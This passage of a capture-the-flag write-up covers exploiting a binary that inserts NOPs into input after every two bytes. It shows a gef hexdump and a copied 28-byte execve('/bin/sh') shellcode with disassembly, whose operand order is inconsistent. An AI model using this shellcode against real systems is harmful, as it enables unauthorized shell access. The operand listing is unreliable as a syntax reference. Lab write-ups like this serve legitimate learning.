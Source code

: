![Alt text](image-4.png)
```
gef➤  hexdump byte eax
0xffffcb10     61 62 90 90 63 64 90 90 65 66 90 90 c3 85 04 08    ab..cd..ef......
0xffffcb20     40 2a fa f7 a0 cb ff f7 10 cb ff ff 10 cb ff ff    @*..............
0xffffcb30     0c 00 00 00 0c 00 00 00 06 00 00 00 0c 00 00 00    ................
0xffffcb40     c0 86 04 08 00 a0 04 08 58 cf ff ff a8 86 04 08    ........X.......
```
(wow you could hexdump in gef, neat)

alright, we got the basic idea of what's happening. when we give an input till the execute function is called the input is sitting in eax. Then after the execute function the input after every two bytes there are two [NOP](https://en.wikipedia.org/wiki/NOP_(code)) inserted. And when we send that altered input, we get a segmentation fault. So our current objectives are
1) send input without the NOP or making it ignore the NOP
2) somehow find the flag in this netcat

let's tackle the second one first, if we want to search for the flag we need a terminal. so we need a shell. and after googling (who am i fooling i saw another writeup) we can use `/bin/sh` command to make a shell for us. So we need use [syscalls](https://asm.sourceforge.net/syscall.html) to send a command. me with 0 knowledge of this googled and found [shell-storm](http://shell-storm.org/). Basically there are bunch of shellcodes already made that you could just copy paste and exploit. But problem is the code breaks after 2 bytes so all our commands need to be exactly 2 bytes. Found this 28 bytes shell code from this [link](http://shell-storm.org/shellcode/files/shellcode-811.html) which mostly has 2 bytes.

```
8048060: 31 c0                 xor    eax,eax
8048062: 50                    push   eax
8048063: 68 2f 2f 73 68        push   0x68732f2f
8048068: 68 2f 62 69 6e        push   0x6e69622f
804806d: 89 e3                 mov    esp,ebx
804806f: 89 c1                 mov    eax,ecx
8048071: 89 c2                 mov    eax,edx
8048073: b0 0b                 mov    0xb,al
8048075: cd 80                 int    0x80
8048077: 31 c0                 xor    eax,eax
8048079: 40                    inc    eax
804807a: cd 80                 int    0x80
```
